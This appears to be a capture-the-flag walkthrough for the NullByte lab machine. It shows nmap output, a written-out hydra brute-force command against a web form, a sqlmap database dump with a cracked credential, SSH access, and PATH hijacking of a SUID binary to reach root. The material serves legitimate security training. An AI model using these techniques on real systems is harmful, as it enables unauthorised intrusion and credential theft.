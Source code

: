 ```yaml
---
title: NullByte
categories: [Proving Grounds Play]
tags: [Exiftool, Password BruteForce, PrivEsc]
image:
   path: https://miro.medium.com/v2/resize:fit:1160/1*3kROPA6FkXviVVJOMbfkLw.png
   alt: NullByte Machine !
---
```


### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled.png)

```bash
IP : 10.0.2.32
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/NullByte]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.32
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 09:44 IST
Nmap scan report for 10.0.2.32
Host is up (0.0053s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http?
|_http-title: Null Byte 00 - level 1
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44254/tcp6  status
|   100024  1          56237/udp   status
|   100024  1          57300/tcp   status
|_  100024  1          59382/udp6  status
777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 163013d9d55536e81bb7d9ba552fd744 (DSA)
|   2048 29aa7d2e608ba6a1c2bd7cc8bd3cf4f2 (RSA)
|   256 6006e3648f8a6fa7745a8b3fe1249396 (ECDSA)
|_  256 bcf7448d796a194876a3e24492dc13a2 (ED25519)
57300/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:5C:97:BB (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%202.png)

Now when I downloaded this ⬆️ eye image I recon over it through exiftool and I found this >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%203.png)

Now When I used this string as a web Directory I got this >>

 

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%204.png)

Source Code ⬇️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%205.png)

Now I have to brute-force the keys to get the exact one >>

```bash
sudo hydra 10.0.2.32 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -P /usr/share/wordlists/rockyou.txt -la
```

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%206.png)

After Entering this >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%207.png)

I think this data processing workes from mysql so let’s try sqlmap now >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%208.png)

```sql
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+
```

Lets crack this password >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2010.png)

```bash
Credentials >>
ramses : omega
```

Lets SSH now ⤵️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2011.png)

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2012.png)

Now I think ps command is executed here os lets run sh instead of ps on procwatch file →

So  I have to change the Environment variable and include /tmp so that it can execute the sh directory which is copied in tmp directory →

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2013.png)

Now let’s run `./procwatch` ⬇️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2014.png)

```bash
# cat proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats. 
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com

USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
Gms=
=PiAQ
-----END PGP PUBLIC KEY BLOCK-----

# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 08:00:27:5c:97:bb brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.32/24 brd 10.0.2.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe5c:97bb/64 scope link 
       valid_lft forever preferred_lft forever
# id    
uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)
#
```

I am root now !!